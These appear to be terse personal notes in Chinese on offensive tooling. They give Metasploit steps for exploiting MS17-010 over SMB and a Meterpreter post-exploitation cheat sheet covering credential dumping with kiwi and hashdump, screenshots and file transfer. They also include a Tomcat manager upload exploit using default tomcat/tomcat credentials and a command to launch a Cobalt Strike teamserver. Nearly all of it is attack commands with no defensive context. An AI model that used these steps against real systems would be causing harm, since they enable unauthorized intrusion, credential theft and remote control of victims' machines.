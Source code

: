 ```sh
sessions -u 升级会话 创建新的session
```



## ms17-010

```sh
search ms17-010

use 0

services -p 445 -R

exploite

```



```sh
sessions里的功能
bg -->session后台
getuid -->获取权限
load -->
run -->运行脚本
use -->加载其他模块
load kiwi 加载账密信息
download -->下载
upload -->上传
execute -->运行程序

execute -f xxx.exe -a "参数"
reg -->注册表
screenshot -->截图
hashdump -->获取hash信息
```

```sh
tomcat 上传
search tomcat-mrg-upload
options
set rhosts 1.x.x.x
set rport xxxx

set httppassword tomcat
set httpusername tomcat
set lhosts 192.x.x.x

exploit
```

```sh
yum install openjdk@11
yum update


unzip cs.zip
./teamserver 192.168.xx.xx password

```
